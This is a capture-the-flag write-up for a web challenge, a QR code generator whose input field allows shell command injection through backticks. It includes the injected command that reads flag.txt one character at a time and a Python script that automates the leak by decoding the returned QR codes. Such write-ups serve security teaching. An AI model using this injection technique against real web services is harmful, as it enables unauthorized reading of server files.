

# QR Generator

## Description

> I was playing around with some stuff on my computer and found out that you can generate QR codes! I tried to make an online QR code generator, but it seems that's not working like it should be. Would you mind taking a look?
>
> http://challs.houseplant.riceteacatpanda.wtf:30004
> 
> Hint! For some reason, my website isn't too fond of backticks...

## Solution

When we go to the website, we see a simple input line. When we enter something in it, we get back a QR code.



By reading the QR code, we remark that only the first letter is displayed in the QR code. 

Using the hint, we also see that by giving backticks, we can execute commands. For instance, ``` `echo "hello"` ``` gives back the QR code displaying `h`. If an error occurs, we get a QR code displaying `error`. 

Trying `cat flag.txt` does not produce an error and shows `r`, which is promising as the flag format is `rtcp{.*}`. We confirm that by leaking subsequent characters using:

```bash
cat flag.txt | head -c {} | tail -c 1
```

with `{}` a chosen number.

Finally, we automate the recovery with a script, which executes the GET requests, retrieves the QR codes and decrypts them.

```python
import requests
from PIL import Image
import zbarlight

for i in range(1,100):
    param = {'text': "`cat flag.txt | head -c {} | tail -c 1`".format(i)}
    r = requests.get("http://challs.houseplant.riceteacatpanda.wtf:30004/qr", params=param)

    with open("qrcode.jpg", "wb") as f:
        f.write(r.content)

    with open("qrcode.jpg", 'rb') as image_file:
        image = Image.open(image_file)
        image.load()

    codes = zbarlight.scan_codes(['qrcode'], image)[0]
    print(codes.decode()[0], end="")
```

Flag: `rtcp{fl4gz_1n_qr_c0d3s???_b1c3fea}`